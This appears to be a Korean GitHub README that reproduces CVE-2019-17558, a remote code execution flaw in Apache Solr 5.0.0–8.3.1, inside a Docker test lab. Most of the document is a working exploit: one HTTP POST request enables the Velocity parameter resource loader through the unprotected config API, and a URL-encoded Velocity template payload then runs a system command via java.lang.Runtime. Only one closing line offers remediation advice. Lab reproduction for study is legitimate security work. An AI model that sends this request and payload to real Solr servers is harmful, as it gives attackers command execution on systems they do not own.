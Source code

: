 # CVE-2019-17558

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [오훈(@55hnnn)](http://github.com/55hnnn)

<br/>

### 요약

-   Solr은 Apache Lucene(TM) 기반의 오픈 소스 엔터프라이즈 검색 플랫폼.
-   Apache Solr 5.0.0에서 Apache Solr 8.3.1은 VelocityResponseWriter를 통한 Remote Code Execution에 취약함.
-   Velocity 템플릿은 `velocity/` 디렉토리 또는 파라미터를 통해 제공될 수 있는데, 여기에 악의적인 템플릿이 포함될 수 있음
-   파라미터를 통한 템플릿은 기본적으로 사용할 수 없지만, 해당 설정을 `True`로 설정한 요청을 보내면 활성화가 가능함.
<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`API에 접속하여 solr core의 이름을 확인함.
![](1_check_core.png)
-   `params.resource.loader.enabled`옵션이 활성화 되어있어야 함. `/solr/[core_name]/config` API를 통해 해당 옵션을 확인. 만약, 비활성화 되어있을 경우, 다음 요청을 통해 해당 옵션을 활성화

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

![](2_check_loader.png)

- Velocity Template에 의한 취약점을 트리거함
```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 공격자가 접근 제어가 이루어지지 않은 API를 통해 solr 서버의 설정을 임의로 구성하여 RCE가 가능했음. API 액세스 권한을 적절히 적용하여 공격자가 임의로 설정을 변경할 수 없도록 주의해야 함.
